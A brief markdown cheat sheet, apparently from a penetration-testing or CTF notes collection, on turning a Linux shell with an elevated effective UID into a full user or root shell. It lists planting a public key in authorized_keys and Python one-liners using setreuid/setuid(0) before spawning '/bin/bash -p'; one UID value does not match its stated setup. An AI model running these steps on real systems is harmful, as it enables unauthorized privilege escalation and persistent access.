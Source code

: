 # Techniques to Escape EUID Limited Shell to UID Shell

## For normal euid

1) using public key authentication technique to escape

-check the .ssh if we have write permission on authorized_keys

-write our own public key into the authorized_keys file

-ssh into the user with our own private key

//notes: the public/private key can be generated using ssh-keygen

2) using python to setreuid to escape

current setup:

  euid user: 1000(Eve)

  uid user: 33 (www-data)

rough idea how it works executing step by step:
'''
$python

\>\>import os

\>\>os.setreuid(1000,1000)	#setreuid(ruid,euid)

\>\>os.system("/bin/bash -p")
'''
one line command:
>python -c 'import os;os.setreuid(1001,1001);os.system("/bin/bash -p")'

## For root euid

1) can use the normal euid user technique
2) use python to setuid & escape EUID limited shell

rough idea how it works executing step by step:

#python
'''
\>\>import os

\>\>os.setuid(0)

\>\>os.system("/bin/bash -p")
'''
one line command:
>python -c 'import os;os.setuid(0);os.system("/bin/bash -p")'

